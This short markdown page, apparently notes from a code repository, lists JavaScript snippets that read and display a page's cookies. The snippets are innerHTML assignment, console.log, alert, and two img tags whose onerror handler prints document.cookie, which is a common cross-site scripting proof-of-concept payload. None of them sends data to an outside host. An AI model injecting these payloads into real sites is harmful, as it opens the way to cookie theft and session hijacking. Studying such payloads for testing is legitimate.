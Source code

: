 ### First method:
```
cookie.innerHTML=document.cookie
```
### To see it also in the console log:
```
console.log(cookieOutput.innerHTML=document.cookie)
```

### Second method you can see the cookie printed:
```
alert(document.cookie)
```

### Other methods:
```
<img src="http://url.to.file.which/not.exist" onerror=alert(document.cookie);>
<img src="http://url.to.file.which/not.exist" onerror=console.log(cookieOutput.innerHTML=document.cookie);>
```
